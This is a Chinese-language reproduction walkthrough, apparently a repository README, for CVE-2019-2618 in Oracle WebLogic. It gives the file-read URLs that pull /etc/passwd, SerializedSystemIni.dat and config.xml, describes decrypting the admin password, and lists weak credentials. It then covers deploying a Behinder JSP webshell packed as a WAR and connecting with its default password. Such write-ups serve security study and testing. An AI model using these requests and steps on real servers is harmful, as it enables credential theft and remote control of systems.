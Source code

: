 # CVE-2019-2618 弱口令&任意文件上传漏洞

> 利用任意文件读取来获取weblogic的弱口令登录进入后台，然后通过上传getshell，通过构造任意文件下载漏洞环境读取到后台用户名和密码，然后登陆进后台，上传webshell。

## 影响版本
   WebLogic 10.3.6.0、12.1.3.0、12.2.1.3
   
## 漏洞复现
1. 任意文件读取  
    访问`http://IP:7001/hello/file.jsp?path=/etc/passwd` 成功获取到账号和密码
    
    ![任意文件读取](images/任意文件读取.png)  ![pass](images/password.png)
    
     不过只能读取一些文件，如何更深层次利用这个漏洞呢？weblogic密码使用AES（老版本3DES）加密，对称加密可解密，只需要找到用户的密文与加密时的密钥即可。这两个文件均位于base_domain下，名为SerializedSystemIni.dat和config.xml。SerializedSystemIni.dat是一个二进制文件，所以一定要用burpsuite来读取，用浏览器直接下载可能引入一些干扰字符。在burp里选中读取到的那一串乱码，这就是密钥，右键copy to file就可以保存成一个文件：
     
     `http://yourIp:7001/hello/file.jsp?path=security/SerializedSystemIni.dat`
     
     ![SerializedSystemIni.dat](images/SerializedSystemIni.dat.png)
     
      config.xml是base_domain的全局配置文件，所以乱七八糟的内容比较多，找到其中的的值，即为加密后的管理员密码
      
      `http://yourIP:7001/hello/file.jsp?path=config/config.xml`
      
      ![config.xml](images/config.xml.png)
      
      使用解密工具进行解密
      
      ![decrypt](images/decrypt.png)
      
  2. 后台上传getshell  
    使用解密后的账号密码登录后台，weblogic常见的弱密码  
    `https://cirt.net/passwords?criteria=weblogic 
     这里使用 用户名:weblogic 密码:Oracle@123 登录`
     
     进入后台后点击左边的部署，找到可以上传文件的地址  
     ![deploy](images/deploy.png)  
     这里使用冰蝎里面自带的jsp一句话生成war马  
     `jar -cvf shell.war shell.jsp`  
      生成war后将war马部署上去  
     ![muma1](images/muma1.png)  
     ![muma1](images/muma2.png)  
     使用冰蝎进行连接(默认密码为rebeyond)，成功getshell  
     ![muma1](images/muma3.png)  